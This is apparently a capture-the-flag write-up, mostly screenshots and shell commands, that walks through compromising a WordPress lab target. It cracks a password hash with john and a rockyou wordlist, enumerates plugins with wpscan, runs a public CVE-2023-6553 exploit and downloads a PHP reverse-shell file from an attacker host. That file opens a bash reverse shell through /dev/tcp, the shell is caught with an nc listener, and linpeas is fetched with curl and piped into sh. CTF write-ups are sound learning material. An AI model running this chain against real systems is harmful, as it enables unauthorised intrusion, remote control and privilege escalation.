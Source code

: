 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9f53dde2-8fda-4c59-80d5-d6b02a6086b7)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b8a594be-31ef-4467-91f7-fbaa33ad2067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/00806b5b-8a84-4cfc-88fc-22413357b290)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d2b41dd2-9edf-4593-b360-1f436cae93ee)

```
wpscan --url http://62.173.140.174:28580/ --enumerate ap --plugins-detection aggressive
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c687398-0fe3-43b0-b37e-e8588fe155fc)

https://github.com/Chocapikk/CVE-2023-6553
```
python exploit.py -u http://62.173.140.174:28580/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f23edae7-f8e4-41a6-ab3a-029afce66eca)
```
echo '<?php phpinfo(); ?>' > /var/www/html/test.php
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c66d94c1-de4b-4215-9ad9-3994e66440eb)
```
wget http://IP:1234/myrev.php 
[cat /var/www/html/](http://62.173.140.174:28580/wp-content/plugins/backup-backup/includes/myrev.php)
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
nc -lvnp 1234 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c492a62a-122a-4513-a8a0-b40b836af3b0)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


